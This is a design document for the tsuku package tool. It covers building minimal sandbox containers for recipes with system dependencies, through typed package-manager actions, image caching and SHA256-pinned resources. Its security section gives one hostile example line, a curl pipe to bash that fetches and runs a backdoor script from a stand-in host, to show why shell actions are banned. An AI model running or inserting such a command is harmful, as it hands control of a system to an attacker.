

# DESIGN: Sandbox Container Building for System Dependencies

## Status

Planned

## Implementation Issues

### Milestone: [Sandbox Container Building](https://github.com/tsukumogami/tsuku/milestone/31)

| Issue | Title | Dependencies |
|-------|-------|--------------|
| [#757](https://github.com/tsukumogami/tsuku/issues/757) | ci(sandbox): create container build CI workflow | None |
| [#767](https://github.com/tsukumogami/tsuku/issues/767) | feat(sandbox): create minimal base container Dockerfile | [#757](https://github.com/tsukumogami/tsuku/issues/757) |
| [#768](https://github.com/tsukumogami/tsuku/issues/768) | feat(sandbox): implement container spec derivation | [#765](https://github.com/tsukumogami/tsuku/issues/765) |
| [#769](https://github.com/tsukumogami/tsuku/issues/769) | feat(sandbox): implement container image caching | [#768](https://github.com/tsukumogami/tsuku/issues/768) |
| [#770](https://github.com/tsukumogami/tsuku/issues/770) | feat(sandbox): integrate container building with sandbox executor | [#761](https://github.com/tsukumogami/tsuku/issues/761), [#767](https://github.com/tsukumogami/tsuku/issues/767), [#768](https://github.com/tsukumogami/tsuku/issues/768), [#769](https://github.com/tsukumogami/tsuku/issues/769), [#765](https://github.com/tsukumogami/tsuku/issues/765) |
| [#771](https://github.com/tsukumogami/tsuku/issues/771) | feat(sandbox): implement action execution in sandbox context | [#755](https://github.com/tsukumogami/tsuku/issues/755), [#756](https://github.com/tsukumogami/tsuku/issues/756), [#770](https://github.com/tsukumogami/tsuku/issues/770), [#761](https://github.com/tsukumogami/tsuku/issues/761) |

### Milestone: [Full Golden Coverage](https://github.com/tsukumogami/tsuku/milestone/29)

| Issue | Title | Dependencies |
|-------|-------|--------------|
| [#758](https://github.com/tsukumogami/tsuku/issues/758) | chore(recipes): discover recipes requiring migration | None |
| [#772](https://github.com/tsukumogami/tsuku/issues/772) | chore(recipes): migrate existing recipes to typed actions | [#758](https://github.com/tsukumogami/tsuku/issues/758), [#770](https://github.com/tsukumogami/tsuku/issues/770), [#771](https://github.com/tsukumogami/tsuku/issues/771), [#760](https://github.com/tsukumogami/tsuku/issues/760) |
| [#773](https://github.com/tsukumogami/tsuku/issues/773) | refactor(actions): remove legacy install_guide support | [#772](https://github.com/tsukumogami/tsuku/issues/772) |
| [#774](https://github.com/tsukumogami/tsuku/issues/774) | feat(golden): enable golden files for system dependency recipes | [#772](https://github.com/tsukumogami/tsuku/issues/772), [#770](https://github.com/tsukumogami/tsuku/issues/770) |
| [#775](https://github.com/tsukumogami/tsuku/issues/775) | chore(golden): unblock #745 - enforce golden files for all recipes | [#774](https://github.com/tsukumogami/tsuku/issues/774) |

### Dependency Graph



**Legend**: Green = done, Blue = ready, Yellow = blocked, Purple = needs-design

## Scope

This design addresses **sandbox container building** for recipes with system dependencies. It complements [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md) which defines the action vocabulary.

| Concern | Design |
|---------|--------|
| Action vocabulary (what actions exist, how they compose) | [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md) |
| Platform filtering (`when` clause, `linux_family` detection) | [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md) |
| Documentation generation (`Describe()` interface) | [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md) |
| **Container building, caching, sandbox execution** | **This design** |

**Current scope**: Documentation generation and sandbox container building. These features require machine-readable recipes but do NOT execute privileged operations on the user's host.

**Future scope**: Host execution (where tsuku actually runs `apt-get install`, etc. on the user's machine) requires a dedicated design covering UX, consent flows, and security constraints. See [DESIGN-system-dependency-actions.md - Future Work: Host Execution](DESIGN-system-dependency-actions.md#host-execution).

## Upstream Design Reference

This design addresses issue [#722](https://github.com/tsukumogami/tsuku/issues/722), which resolves the "Structured System Dependencies" blocker in [DESIGN-golden-plan-testing.md](DESIGN-golden-plan-testing.md).

**Companion design**: [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md) (action vocabulary) is a prerequisite for this design.

**Blocking relationship:**
- Issue #745 (enforce golden files for all recipes) is blocked by #722
- Both companion designs must be implemented before #745 can proceed
- Upon completion, all recipes can be sandbox-tested with dynamically-built containers

## Context and Problem Statement

Recipes with `require_system` steps cannot be execution-validated in the sandbox because the required system packages are not installed in the container. The current `install_guide` field has two problems:

1. **Free-form text**: Contains human-readable instructions, not machine-parseable specifications
2. **Platform keys inside the parameter**: Bakes platform filtering into the field instead of using the step-level `when` clause

**Current state:**

```toml
[[steps]]
action = "require_system"
command = "docker"

[steps.install_guide]
darwin = "brew install --cask docker"
linux = "See https://docs.docker.com/engine/install/"
```

The sandbox executor cannot parse "brew install --cask docker" to install Docker automatically. Additionally, the platform keys (`darwin`, `linux`) duplicate functionality that belongs in the `when` clause - the standard mechanism for platform-specific step filtering.

**Why platform keys in `install_guide` are wrong:**

Consider a recipe that tsuku can install on one platform but requires system packages on another:

```toml
# Current approach (inconsistent)
[[steps]]
action = "download"
url = "https://example.com/tool-linux.tar.gz"
when = { os = ["linux"] }   # <-- platform filtering via when

[[steps]]
action = "require_system"
command = "tool"
[steps.install_guide]        # <-- platform filtering via parameter keys
darwin = "brew install tool"
```

The `download` step uses `when` for platform filtering, but `require_system` uses keys inside `install_guide`. This inconsistency makes recipes harder to reason about.

**Why this matters:**

1. **Incomplete golden coverage**: Issue #745 (enforce golden files for all recipes) is blocked on this issue. Some recipes cannot be sandbox-tested.

2. **Accidental dependencies**: The current sandbox base containers (`debian:bookworm-slim`, `ubuntu:22.04`) include hundreds of pre-installed packages. Recipes tested in these environments may work due to packages "accidentally" present - `ca-certificates`, `tar`, `gzip`, `curl`, shell utilities, shared libraries. A truly minimal environment would expose these hidden assumptions.

3. **Inconsistent platform handling**: Platform filtering should happen at the step level via `when`, not inside action parameters.

4. **Scale requirements**: Tsuku aims to support tens of thousands of tools. At that scale, consistent patterns matter. Every action should use `when` for platform filtering.

**Scope:**

This design addresses:
- Enabling sandbox testing for recipes with system dependencies
- Minimal base container strategy
- Container building from extracted package requirements
- Container image caching

This design depends on [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md) for:
- Action vocabulary (`apt_install`, `brew_cask`, `require_command`, etc.)
- Platform filtering via `when` clause with `linux_family` field
- Implicit constraints for package manager actions
- Documentation generation via `Describe()` interface

This design does NOT cover:
- Tsuku installing system packages on the host (tsuku remains non-root on host)
- Replacing package managers (apt, brew, etc.)
- Container image management as a user-facing feature

### Bootstrap Requirements

Empirical testing across Linux distributions revealed that Debian and Ubuntu base images lack both download tools and CA certificates:

| Distro | curl | wget | CA certificates |
|--------|------|------|-----------------|
| debian:bookworm-slim | MISSING | MISSING | MISSING |
| ubuntu:24.04 | MISSING | MISSING | MISSING |
| fedora:41 | present | MISSING | present |
| alpine:3.19 | MISSING | present | present |
| archlinux:base | present | MISSING | present |

**Implication:** On fresh Debian/Ubuntu systems, tsuku cannot make HTTPS requests until the user installs `ca-certificates`. This is a bootstrap problem - tsuku needs network access to download recipes, but network access requires certificates.

**Resolution:** Tsuku (as a Go static binary) embeds CA certificates and does not rely on system certificates. However, recipes that download binaries via shell commands will fail on minimal Debian/Ubuntu without `ca-certificates`.

**Universal baseline:** Only `/bin/sh`, coreutils, `tar`, and `gzip` are truly universal across all Linux distributions. Recipes should not assume presence of `bash`, `curl`, `wget`, `unzip`, or `xz`.

## Decision Drivers

1. **Consistency**: Platform filtering should use the existing `when` clause, not custom keys inside parameters.

2. **Machine-parseable**: The format must be structured for sandbox container provisioning.

3. **Auditable**: Operations must be statically analyzable (no arbitrary shell commands).

4. **Platform coverage**: The format must support apt, brew, dnf, and be extensible to others.

5. **Simplicity**: Recipe authors should not need to learn complex syntax beyond existing patterns.

## Considered Options

### Decision 1: Platform Filtering Mechanism

How should platform-specific system requirements be expressed?

#### Option 1A: Platform Keys Inside Parameter (Current Approach)

```toml
[[steps]]
action = "require_system"
command = "docker"

[steps.install_guide]
linux = "sudo apt install docker.io"
darwin = "brew install --cask docker"
```

**Pros:**
- Compact (one step for all platforms)
- All platform variants visible together

**Cons:**
- Inconsistent with how other actions handle platforms (via `when`)
- Two filtering mechanisms in recipes (confusing)
- Cannot mix `require_system` with other actions per-platform cleanly

#### Option 1B: Step-Level `when` Clause (Proposed)

Each platform gets its own step, filtered by `when`:

```toml
# Linux
[[steps]]
action = "require_system"
command = "docker"
packages = { apt = ["docker.io"] }
when = { os = ["linux"] }

# macOS
[[steps]]
action = "require_system"
command = "docker"
packages = { brew_cask = ["docker"] }
when = { os = ["darwin"] }
```

**Pros:**
- Consistent with all other actions
- Single platform filtering mechanism
- Easy to mix action types per platform
- Each step is self-contained and simple

**Cons:**
- More verbose (duplicate `command` field)
- Platform variants spread across multiple steps

### Decision 2: Package Specification Format

How should package requirements be structured?

#### Option 2A: Free-Form Text (Current)

```toml
install_guide = "sudo apt install docker.io"
```

**Pros:**
- Flexible for any instruction
- No schema to learn

**Cons:**
- Cannot be machine-executed
- Cannot be validated
- Sandbox testing impossible

#### Option 2B: Typed Actions

Each operation is a separate step with a typed action. Simple and complex cases use the same syntax. Package manager actions have implicit constraints (see [DESIGN-system-dependency-actions.md - D6](DESIGN-system-dependency-actions.md#d6-implicit-constraints-for-package-manager-actions)).

**Simple case:**
```toml
# apt_install has implicit when = { linux_family = "debian" }
[[steps]]
action = "apt_install"
packages = ["docker.io"]

[[steps]]
action = "require_command"
command = "docker"
```

**Complex case (multiple operations):**
```toml
# apt_* actions have implicit when = { linux_family = "debian" }
[[steps]]
action = "apt_repo"
url = "https://download.docker.com/linux/ubuntu"
key_url = "https://download.docker.com/linux/ubuntu/gpg"
key_sha256 = "1500c1f..."

[[steps]]
action = "apt_install"
packages = ["docker-ce", "docker-ce-cli", "containerd.io"]

[[steps]]
action = "group_add"
group = "docker"
when = { os = "linux" }

[[steps]]
action = "service_enable"
service = "docker"
when = { os = "linux" }

[[steps]]
action = "require_command"
command = "docker"
```

**Key constraint: No shell action.** All operations use typed actions that can be statically analyzed.

**Pros:**
- Machine-executable (with user consent)
- Auditable (no arbitrary shell commands)
- Extensible (new actions added as patterns emerge)
- Content-addressed (external URLs require SHA256)
- Consistent syntax for simple and complex cases

**Cons:**
- Requires defining action vocabulary
- Complex installations need multiple steps
- New patterns require code changes

### Decision 3: Base Container Strategy

What should the sandbox base container contain?

#### Option 3A: Minimal Container (tsuku + glibc only)

Strip the base container to absolute minimum. Every dependency must be declared.

**Pros:**
- Forces complete dependency declarations
- No "accidental" dependencies masking recipe bugs
- Reproducible across container runtimes

**Cons:**
- Many existing recipes will fail until annotated (currently ~3 recipes with `require_system`, but number may grow)
- Initial migration effort to annotate all affected recipes
- Slower sandbox runs (more packages to install per recipe)
- Base container construction is non-trivial (glibc, locale-archive, SSL certs may all be needed)

#### Option 3B: Current Approach (debian:bookworm-slim)

Keep the current base images with their standard package sets.

**Pros:**
- No migration effort
- Faster sandbox runs for simple tools
- Matches common developer environments

**Cons:**
- Recipes may work due to undeclared dependencies
- Different base images have different packages
- Doesn't catch missing dependency declarations

#### Option 3C: Curated Base Container

Create a custom tsuku base image with a known set of common packages.

**Pros:**
- Controlled environment
- Balance between minimal and practical
- Can version and maintain the image

**Cons:**
- Adds maintenance burden (building/publishing images)
- Still doesn't force complete dependency declarations
- Extra infrastructure to manage

### Decision 4: Package Manager Coverage

Which package managers should the structured format support?

#### Option 4A: Core Package Managers Only

Support the most common package managers: `apt`, `brew`, `dnf`.

**Pros:**
- Covers vast majority of use cases
- Simpler implementation
- Easier to test and maintain

**Cons:**
- Users of Arch (pacman), Alpine (apk) must use fallback text
- Limits adoption in some ecosystems

#### Option 4B: Comprehensive Package Manager Support

Support: `apt`, `brew`, `dnf`, `pacman`, `apk`, `zypper`, `emerge`.

**Pros:**
- Broader platform coverage
- More recipes can be fully structured

**Cons:**
- Testing burden increases
- Maintenance of multiple package manager integrations
- Some managers rarely used in practice

#### Option 4C: Extensible with Core Defaults

Support core managers (apt, brew, dnf) with an extensible schema for adding others.

**Pros:**
- Pragmatic initial scope
- Clear path for expansion
- Community can request additions

**Cons:**
- Initial recipes limited to core managers
- Schema evolution requires careful design

## Decision Outcome

**Chosen: 1B + 2B + 3A + 4C**

### Summary

We replace `install_guide` and the polymorphic `require_system` with typed actions (`apt_install`, `brew_cask`, `require_command`, etc.) from [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md). Package manager actions have implicit constraints based on `linux_family` (e.g., `apt_install` implies `linux_family = "debian"`). The sandbox base container is stripped to minimal, forcing complete dependency declarations. We support core package managers initially with an extensible action system.

### Rationale

**Why Option 1B (step-level `when`) over 1A (platform keys in parameter):**

Platform filtering belongs at the step level, not inside parameters. This provides:
- **Consistency**: Every action uses `when` for platform filtering
- **Composability**: Easy to mix action types per platform (e.g., `download` on Linux, `brew_install` on macOS)
- **Simplicity**: Each step is self-contained with one platform target

The verbosity trade-off (separate steps per platform) is acceptable because:
- Recipes are validated by tooling, not hand-written at scale
- Explicit is better than implicit for platform behavior
- The `when` clause is already familiar to recipe authors

**Why Option 2B (typed actions) over 2A (free-form text):**

- **No shell, only typed actions**: Arbitrary shell commands with sudo are a security risk that cannot be statically analyzed. By restricting to known actions (`apt_install`, `apt_repo`, `brew_cask`, `group_add`, `service_enable`), every recipe can be audited.
- **Machine-executable**: Actions are designed to be executed by tsuku in sandbox containers.
- **Documentation generation**: Actions implement `Describe()` for human-readable instructions.
- **Content-addressed resources**: All external URLs (GPG keys, repository definitions) require SHA256 hashes.

**Why Option 3A (minimal container) over 3B (current) or 3C (curated):**

- 3A exposes hidden dependencies that 3B masks
- At scale (tens of thousands of tools), hidden dependencies become a major problem
- 3C doesn't solve the underlying issue

**Why Option 4C (extensible core) over 4A or 4B:**

- Start with proven patterns (apt, brew, dnf)
- Add actions as we encounter new patterns during recipe migration
- Avoids over-engineering upfront while providing clear extension path

## Solution Architecture

### Design Principles

1. **Platform filtering via `when`**: Use the step-level `when` clause with `linux_family` support
2. **Implicit constraints**: Package manager actions have implicit, immutable constraints (see [D6](DESIGN-system-dependency-actions.md#d6-implicit-constraints-for-package-manager-actions))
3. **No shell commands**: All operations use typed actions that can be statically analyzed
4. **Content-addressed resources**: All external URLs require SHA256 hashes
5. **Typed actions**: Each action has a well-defined schema from [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md)
6. **Extensible vocabulary**: New actions added through code as patterns emerge

### Step Structure

System dependencies use typed actions from [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md). Package manager actions have implicit constraints based on `linux_family`:

**Simple case** (single package manager):
```toml
# Debian family - implicit when = { linux_family = "debian" }
[[steps]]
action = "apt_install"
packages = ["docker.io"]

# macOS - implicit when = { os = "darwin" }
[[steps]]
action = "brew_cask"
packages = ["docker"]

# Verify installation
[[steps]]
action = "require_command"
command = "docker"
```

**Complex case** (multiple operations): See [DESIGN-system-dependency-actions.md - Example: Docker Installation](DESIGN-system-dependency-actions.md#example-docker-installation) for a complete recipe example showing repository setup, package installation, post-install configuration, and verification.

**Mixed recipe** (tsuku installs on one platform, requires system on another):
```toml
# Linux - tsuku can install directly
[[steps]]
action = "download"
url = "https://example.com/tool-{version}-linux.tar.gz"
when = { os = "linux" }

[[steps]]
action = "extract"
when = { os = "linux" }

# macOS - requires system package (implicit when = { os = "darwin" })
[[steps]]
action = "brew_install"
packages = ["tool"]

# Verify on both platforms
[[steps]]
action = "require_command"
command = "tool"
```

### Action Vocabulary

See [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md) for the canonical action vocabulary including:

- **Package installation**: `apt_install`, `apt_repo`, `apt_ppa`, `brew_install`, `brew_cask`, `dnf_install`, `dnf_repo`, `pacman_install`
- **System configuration**: `group_add`, `service_enable`, `service_start`
- **Verification**: `require_command`
- **Fallback**: `manual`

Each action has a `Describe()` method for documentation generation and typed parameters for validation.

### Content-Addressing Requirements

All external resources must be content-addressed to prevent TOCTOU attacks:

```toml
# REQUIRED: key_sha256 must be present
{ apt_repo = {
    url = "https://download.docker.com/linux/ubuntu",
    key_url = "https://download.docker.com/linux/ubuntu/gpg",
    key_sha256 = "1500c1f56fa9e26b9b8f42452a553675796ade0807cdce11975eb98170b3a570"
} }

# ERROR: Missing key_sha256
{ apt_repo = { url = "...", key_url = "..." } }
```

Preflight validation rejects recipes with unhashed external resources.

### Action Execution in Sandbox

When tsuku executes actions in sandbox containers, they run as root (no sudo needed):

```go
// Action interface for typed actions
type Action interface {
    // Preflight validates parameters
    Preflight(params map[string]interface{}) *PreflightResult

    // ExecuteInSandbox runs the action inside a container (as root)
    ExecuteInSandbox(ctx *SandboxContext) error

    // Describe returns human-readable instructions for documentation
    Describe() string
}

// Example: apt_install action in sandbox
type AptInstallAction struct {
    Packages []string
}

func (a *AptInstallAction) ExecuteInSandbox(ctx *SandboxContext) error {
    args := append([]string{"install", "-y"}, a.Packages...)
    return ctx.Run("apt-get", args...)
}

func (a *AptInstallAction) Describe() string {
    return fmt.Sprintf("Install packages: sudo apt-get install %s",
        strings.Join(a.Packages, " "))
}
```

See [DESIGN-system-dependency-actions.md - Documentation Generation](DESIGN-system-dependency-actions.md#documentation-generation) for the complete `Describe()` interface.

### Documentation Generation

When a recipe has system dependency actions that cannot be executed on the host, tsuku generates human-readable instructions using each action's `Describe()` method. See [DESIGN-system-dependency-actions.md - Documentation Generation](DESIGN-system-dependency-actions.md#documentation-generation) for the `Describe()` interface and example CLI output.

### Extension Model

New actions are added when patterns emerge during recipe migration. See [DESIGN-system-dependency-actions.md - Future Work](DESIGN-system-dependency-actions.md#future-work) for the action extension process.

This creates a higher review bar than shell commands - every new action type requires code review.

**Anticipated future actions** (from action vocabulary design):
- `apk_install` for Alpine Linux (alpine family) - already in scope
- `zypper_install` for openSUSE (suse family) - already in scope

**Explicitly out of scope:**
- `nix_install` for NixOS - declarative model, fundamentally different paradigm
- `emerge` for Gentoo - source-based, fundamentally different paradigm

These systems may use nix-portable as a universal fallback in the future.

### Minimal Base Container

Create a new base container with only:

```dockerfile
FROM scratch
COPY --from=builder /tsuku /usr/local/bin/tsuku
COPY --from=builder /lib/x86_64-linux-gnu/libc.so.6 /lib/x86_64-linux-gnu/
COPY --from=builder /lib64/ld-linux-x86-64.so.2 /lib64/
# ... minimal runtime dependencies for tsuku binary
```

The container cannot run `apt-get` or any package manager. Instead, the sandbox executor builds a derived container with the required packages:

```dockerfile
FROM tsuku/sandbox-base:latest
RUN apt-get update && apt-get install -y docker.io
```

### Sandbox Executor Changes

The sandbox executor is modified to:

1. **Extract packages from typed actions**: Parse package installation actions from the plan. Steps are already platform-filtered by `when`.

2. **Compute container image**: Generate a Dockerfile from the base image plus required packages. Hash the package list for caching.

3. **Build or retrieve container**: Check if an image with the package set hash exists. If not, build it.

4. **Run sandbox test**: Use the derived container for sandbox execution.

```go
// ExtractPackages collects all package requirements from a filtered plan.
// The plan is already filtered for the target platform, so steps contain only
// the actions needed for that platform.
//
// Returns (packages, nil) for recipes with package installation actions.
// Returns (nil, nil) for recipes with no system dependency actions.
func ExtractPackages(plan *executor.InstallationPlan) (map[string][]string, error) {
    packages := make(map[string][]string)
    hasSystemDeps := false

    for _, step := range plan.Steps {
        // Extract packages from Params map with type assertion
        pkgList, _ := step.Params["packages"].([]interface{})
        var pkgs []string
        for _, p := range pkgList {
            if s, ok := p.(string); ok {
                pkgs = append(pkgs, s)
            }
        }

        switch step.Action {
        case "apt_install":
            hasSystemDeps = true
            packages["apt"] = append(packages["apt"], pkgs...)
        case "apt_repo":
            hasSystemDeps = true
            // apt_repo doesn't add packages directly, but signals we need apt
        case "brew_install", "brew_cask":
            hasSystemDeps = true
            packages["brew"] = append(packages["brew"], pkgs...)
        case "dnf_install":
            hasSystemDeps = true
            packages["dnf"] = append(packages["dnf"], pkgs...)
        case "pacman_install":
            hasSystemDeps = true
            packages["pacman"] = append(packages["pacman"], pkgs...)
        }
    }

    if !hasSystemDeps {
        return nil, nil // No system dependencies - use default container
    }

    return packages, nil
}

// DeriveContainerSpec creates a container specification from extracted packages.
func DeriveContainerSpec(packages map[string][]string) *ContainerSpec {
    if packages == nil {
        return nil
    }
    return &ContainerSpec{
        Base:     MinimalBaseImage,
        Packages: packages,
    }
}
```

**Note:** The plan passed to `ExtractPackages` is already filtered for the target platform. The filtering (including `linux_family` detection and implicit PM action constraints) happens during plan generation.

**Implementation note:** The current `Runtime` interface (`internal/validate/runtime.go`) only supports `Run()`. Container building requires adding:
- `Build(ctx context.Context, dockerfile string, imageName string) error` - Build image from Dockerfile
- `ImageExists(ctx context.Context, imageName string) (bool, error)` - Check cache

### Container Image Caching

To avoid rebuilding containers for every test, cache images by package set:

```go
// ContainerImageName generates a deterministic image name for a package set.
func ContainerImageName(spec *ContainerSpec) string {
    // Sort packages for deterministic hash
    var parts []string
    for manager, pkgs := range spec.Packages {
        sort.Strings(pkgs)
        for _, pkg := range pkgs {
            parts = append(parts, fmt.Sprintf("%s:%s", manager, pkg))
        }
    }
    sort.Strings(parts)

    hash := sha256.Sum256([]byte(strings.Join(parts, "\n")))
    return fmt.Sprintf("tsuku/sandbox-cache:%s", hex.EncodeToString(hash[:8]))
}
```

The cache can be local (podman/docker image cache) or remote (GHCR for CI).

### Recipe Validation

Each typed action validates its own parameters. Example for `apt_install`:

```go
func (a *AptInstallAction) Preflight(params map[string]interface{}) *PreflightResult {
    result := &PreflightResult{}

    // Packages is required
    packages, ok := GetStringSlice(params, "packages")
    if !ok || len(packages) == 0 {
        result.AddError("apt_install action requires 'packages' parameter with at least one package")
    }

    // Validate package names (no shell metacharacters)
    for _, pkg := range packages {
        if !isValidPackageName(pkg) {
            result.AddError("invalid package name: %s", pkg)
        }
    }

    return result
}

func (a *AptRepoAction) Preflight(params map[string]interface{}) *PreflightResult {
    result := &PreflightResult{}

    // url, key_url, key_sha256 are all required
    if _, ok := GetString(params, "url"); !ok {
        result.AddError("apt_repo action requires 'url' parameter")
    }
    if _, ok := GetString(params, "key_url"); !ok {
        result.AddError("apt_repo action requires 'key_url' parameter")
    }
    if _, ok := GetString(params, "key_sha256"); !ok {
        result.AddError("apt_repo action requires 'key_sha256' for content-addressing")
    }

    return result
}
```

See [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md) for the complete action vocabulary with validation rules.

### Migration Path

Since tsuku is pre-GA and all recipes are in the repo, we do a clean migration:

1. **Remove `install_guide`**: Delete the field entirely from legacy `require_system` action
2. **Implement typed actions**: Add `apt_install`, `brew_cask`, `require_command`, etc. per [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md)
3. **Migrate recipes**: Convert docker.toml, cuda.toml, test-tuples.toml to typed actions (PM actions have implicit when clauses based on `linux_family`)
4. **Validate**: Ensure all recipes pass preflight and can be sandbox-tested

## Implementation Approach

This design depends on [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md) phases 1-3 being complete (linux_family detection, action vocabulary, documentation generation).

### Phase 1: Adopt Action Vocabulary

1. Implement typed action handlers: `apt_install`, `apt_repo`, `brew_install`, `brew_cask`, etc.
2. Remove `install_guide` parameter from legacy `require_system` action
3. Implement `require_command` action (extracted from `require_system`)
4. Migrate existing recipes (docker.toml, cuda.toml, test-tuples.toml) to typed actions with `when` clauses

### Phase 2: Documentation Generation

1. Implement `Describe()` for all typed actions
2. Update CLI to display platform-filtered instructions when system deps are missing
3. Add `--verify` flag to check if system deps are satisfied after manual installation

### Phase 3: Sandbox Container Building

1. Create minimal base container Dockerfile (tsuku + standard tools)
2. Publish base image to GHCR (tsukumogami/sandbox-base)
3. Implement `ExtractPackages()` to collect packages from plan
4. Implement container building from extracted packages
5. Add container image caching by package hash
6. Integrate with existing sandbox executor

### Phase 4: Extension

1. Add actions as needed: `dnf_install`, `dnf_repo`, `pacman_install`
2. Strip sandbox base container further as hidden dependencies are discovered
3. Update CONTRIBUTING.md with action documentation

## Security Considerations

### Trust Model

This design uses a layered trust model with explicit boundaries:

| Layer | Trust Source | Verification |
|-------|-------------|--------------|
| Recipe content | PR review by maintainers | Human review |
| External resources | Content-addressing (SHA256) | Automated hash verification |
| Package managers | Distribution signatures | apt/dnf GPG, Homebrew checksums |
| Action operations | Typed vocabulary from [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md) | Code review for new actions |

**Key security property**: No arbitrary shell commands. All operations use typed actions with well-defined, auditable behavior. This enables static analysis of what a recipe will do.

### Download Verification

**External resources are content-addressed.** All URLs in actions (GPG keys, repository definitions) require SHA256 hashes:

```toml
{ apt_repo = {
    url = "https://download.docker.com/linux/ubuntu",
    key_url = "https://download.docker.com/linux/ubuntu/gpg",
    key_sha256 = "1500c1f56fa9e26b9b8f42452a553675796ade0807cdce11975eb98170b3a570"
} }
```

This prevents TOCTOU attacks where resources change between review and installation. Preflight validation rejects recipes with unhashed resources.

Package installation uses trusted package managers (apt, brew, dnf) which handle their own verification (GPG signatures for apt/dnf, SHA256 for Homebrew).

### Execution Isolation

**Sandbox context (containers):**
- Actions execute as root inside the container
- Container is ephemeral - destroyed after test
- No host filesystem access beyond explicit mounts
- Resource limits (memory, CPU, process count)
- No host network unless explicitly required

**Host context**: See [DESIGN-system-dependency-actions.md - Future Work: Host Execution](DESIGN-system-dependency-actions.md#host-execution) for security constraints on future host execution.

**Why no shell action:**
```toml
# NOT ALLOWED - arbitrary code execution
{ shell = "curl evil.com/backdoor.sh | bash" }

# ALLOWED - well-defined, auditable operation
{ apt = ["docker-ce"] }
```

Once shell commands are allowed, static analysis becomes impossible. The attacker surface expands to any shell syntax, variable expansion, subshells, etc.

### Supply Chain Risks

**Package manager trust**: This design trusts apt, brew, and dnf repositories. An attacker who compromises these repositories could inject malicious packages. This is an existing risk for anyone using these package managers - tsuku does not add new trust requirements.

**Recipe review**: All actions are visible in the TOML recipe. Reviewers can audit:
- Which packages are installed
- Which repositories are added (with their GPG keys)
- Which groups the user is added to
- Which services are enabled

**Action vocabulary control**: New actions require code changes to tsuku, creating a higher review bar than allowing arbitrary shell commands. See [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md) for the canonical action vocabulary.

**Content-addressing**: External URLs must have SHA256 hashes computed at review time. If an upstream resource changes, the hash check fails and installation is blocked.

### User Data Exposure

**Sandbox context:**
- No user data mounted into container
- Only recipe plan, download cache, and tsuku binary (all read-only)
- Container destroyed after execution

**Host context**: Not applicable - tsuku does not execute system dependency actions on the host. See [DESIGN-system-dependency-actions.md - Future Work: Host Execution](DESIGN-system-dependency-actions.md#host-execution) for future considerations.

## Future Work

The following items were identified during design review but are deferred for post-MVP implementation.

### Host Execution

Host execution (where tsuku actually runs `apt-get install`, etc. on the user's machine) is out of scope for this design. It requires a dedicated design covering:

- **UX considerations**: Consent flow, progress display, error recovery, rollback
- **Security constraints**: Group allowlisting, repository allowlisting, tiered consent, audit logging

See [DESIGN-system-dependency-actions.md - Future Work: Host Execution](DESIGN-system-dependency-actions.md#host-execution) for detailed security constraints that will apply when this feature is implemented.

### Tiered Extension Model

The current design requires Go code changes for every new action. At scale (tens of thousands of recipes), this creates friction. A future tiered extension model could include:

1. **Core actions (Go)**: Security-sensitive operations (apt_repo, group_add, service_enable) that require full code review
2. **Composite actions (TOML)**: Combinations of core actions defined in recipe syntax (e.g., `add_docker_repo` = apt_repo + apt_install)
3. **Verified scripts**: Reviewed shell scripts with attestation, for edge cases that don't fit the action model

See [DESIGN-system-dependency-actions.md - Future Work: Composite Shorthand Syntax](DESIGN-system-dependency-actions.md#composite-shorthand-syntax) for related work on composite actions.

### Automatic Action Analysis

A `tsuku analyze <recipe>` command could:

1. Parse existing `install_guide` text instructions
2. Propose typed actions (`apt_install`, `brew_cask`, etc.)
3. Identify external resources needing SHA256 hashes
4. Suggest migration patches

This would accelerate migration when scaling to thousands of recipes.

### Platform Version Constraints

The `when` clause supports `linux_family` filtering (see [DESIGN-system-dependency-actions.md - D2: Linux Family Detection](DESIGN-system-dependency-actions.md#d2-linux-family-detection)), but not version constraints. Future work could extend `when` to support distribution versions:

```toml
# Version constraints would need to be an additional field
when = { linux_family = "debian", version = ">=24.04" }
```

This requires defining version comparison semantics across distro versioning schemes (deferred per the action vocabulary design).

### Container Cache Optimization

At scale, the content-addressed cache may grow large. Future optimizations:

- **Layered caching**: Share common package sets across recipes
- **Cache eviction**: LRU or reference-counted cleanup
- **Remote cache**: GHCR or S3-backed cache for CI

### Privilege Escalation Paths

